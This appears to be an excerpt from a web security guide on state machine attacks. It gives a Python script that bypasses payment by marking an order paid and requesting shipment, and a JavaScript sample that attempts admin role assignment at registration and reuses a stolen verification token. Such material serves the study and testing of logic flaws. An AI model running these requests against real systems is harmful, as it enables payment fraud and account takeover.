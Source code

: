 #### **State Machine Attacks**

**Order Processing Bypass:**
```python
# Normal flow: cart -> checkout -> payment -> confirmed -> shipped
# Attack: Skip payment verification

import requests

# Step 1: Add items to cart
requests.post('/api/cart/add', json={'item': 'laptop', 'qty': 1})

# Step 2: Create order
order_response = requests.post('/api/orders/create')
order_id = order_response.json()['order_id']

# Step 3: Skip payment, directly mark as paid
requests.post(f'/api/orders/{order_id}/status', 
              json={'status': 'paid'})

# Step 4: Request shipping
requests.post(f'/api/orders/{order_id}/ship')
```

**Account Privilege Escalation:**
```javascript
// Normal flow: register -> verify email -> basic user
// Attack: Manipulate verification process

// Step 1: Register account
fetch('/api/register', {
    method: 'POST',
    body: JSON.stringify({
        'email': 'attacker@evil.com',
        'password': 'password123',
        'role': 'admin'  // Attempt direct role assignment
    })
});

// Step 2: Intercept verification token for another user
// Through timing attacks, enumeration, or social engineering

// Step 3: Use stolen token with our account
fetch('/api/verify-email', {
    method: 'POST',
    body: JSON.stringify({
        'email': 'attacker@evil.com',
        'token': 'stolen_admin_token'
    })
});
```

---
